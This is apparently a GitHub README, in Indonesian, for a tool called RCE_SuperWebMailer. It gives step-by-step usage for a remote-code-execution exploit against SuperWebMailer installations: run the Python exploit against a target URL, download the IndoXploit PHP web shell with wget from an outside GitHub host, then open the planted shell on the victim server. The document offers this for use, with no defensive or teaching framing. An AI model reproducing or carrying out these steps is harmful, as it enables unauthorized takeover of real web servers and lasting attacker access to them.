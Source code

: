 # RCE_SuperWebMailer
Tools ini menggunakan Python3 untuk menjalankan jika belum menggunakan python versi 3 harap di install terlebih dahulu

# Cara Menggunakan
pip install requests <br>
python3 expploit.py -u http://target.com/swm/

wget https://raw.githubusercontent.com/linuxsec/indoxploit-shell/master/shell-v3.php

akses shell : http://target.com/swm/shell-v3.php
